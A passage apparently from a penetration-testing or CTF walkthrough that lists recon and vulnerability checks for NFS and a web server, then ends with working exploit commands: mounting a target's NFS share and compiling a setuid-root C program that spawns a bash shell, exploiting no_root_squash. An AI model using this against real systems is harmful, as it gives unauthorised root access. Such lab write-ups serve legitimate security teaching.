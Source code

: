 2. **Development server (Port 8080)**:
   - Examine applications running on this port
   - Look for development features or debugging info
   - Check for API endpoints

## Vulnerability Analysis

### NFS Misconfigurations

1. **Check for `no_root_squash` option**:
   - This misconfiguration allows local root to have remote root access

2. **Examine file permissions on NFS share**:
   - Look for sensitive files, configuration backups, or credentials

### Web Application Vulnerabilities

1. **Check for common vulnerabilities**:
   - SQL injection
   - Path traversal/LFI
   - Command injection
   - Insecure file uploads

2. **Check for development artifacts**:
   - Git repositories (.git folders)
   - Backup files (.bak, .old, etc.)
   - Configuration files

## Initial Exploitation

### Method 1: Exploiting NFS Misconfiguration

1. **Create a setuid binary for privilege escalation**:
   ```bash
   # On Kali
   mkdir -p /tmp/nfs
   mount -t nfs <target_ip>:/home/dev /tmp/nfs
   
   cat > /tmp/nfs/shell.c << EOF
   #include <stdio.h>
   #include <sys/types.h>
   #include <unistd.h>
   int main(void) {
     setuid(0); setgid(0);
     system("/bin/bash");
     return 0;
   }
   EOF
   
   gcc /tmp/nfs/shell.c -o /tmp/nfs/shell
   chmod u+s /tmp/nfs/shell
   ```
